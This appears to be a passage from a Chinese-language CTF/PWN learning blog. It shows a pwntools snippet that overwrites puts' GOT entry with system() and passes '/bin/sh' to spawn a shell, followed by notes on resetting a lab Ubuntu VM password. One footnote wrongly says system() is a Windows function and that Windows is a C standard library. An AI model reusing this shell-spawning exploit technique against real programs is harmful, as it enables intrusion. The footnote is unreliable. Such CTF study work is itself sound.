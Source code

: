 ```python


payload3_1=b'%d\n'%add_cal(puts_got_add)
payload3_2=b'/bin/sh\x00'+p64(sys_add)	#同时完成传入/bin/sh和覆盖puts地址
r.sendafter("one.",payload3_1)

r.sendafter("name",payload3_2)
r.recv()
r.interactive()

```

但是...程序跑不通.和上一题不一样,这回是线上能通线下通不了...试了下libcsearcher,结果提示搜不到.明天打算试试docker.

#### 3:如何修改Ubuntu下用户的密码

​	众所周知,在网盘里有一个配好环境的ubuntu18,只需要把它直接下载下来导入(然而在我的电脑上还得重新做哈希校验(如果我没有搞错这玩意的称谓的话),也不知道为啥),你就能直接开始爽打PWN.

​	但是,不知道是故意的还是不小心的,似乎从来没有人告诉过我这玩意的密码...

![mima](./picture/mima.png)

[^*]: 其实当时的问题在于自动登录莫名其妙的失效了,而且我的上一个快照还是一周前的...在重启了好多次以后我还是没能下定决心恢复到上一个快照

​	于是我们重启,然后按下esc(考虑到各种各样的因素,建议多按几次),进入这个界面:


[^栈迁移]: 知识库里讲的挺详细的(话说那篇文章我在网上也搜到过来着),可以去看看
[^库函数]: 例如printf,scanf都是常见的stdio.h下的函数,而stdio又是c标准库之一,因此它们都会被包含在glibc中.类似的,system()是Windows库函数,而Windows也是c标准库.所以我们能在使用了libc库的程序里使用system("/bin/sh")来getshell
[^system()]: 除了在Linux下执行/bin/sh以外,它还能干许多其他的事情.比如创建目录,删除文件,启动某个程序之类的↓.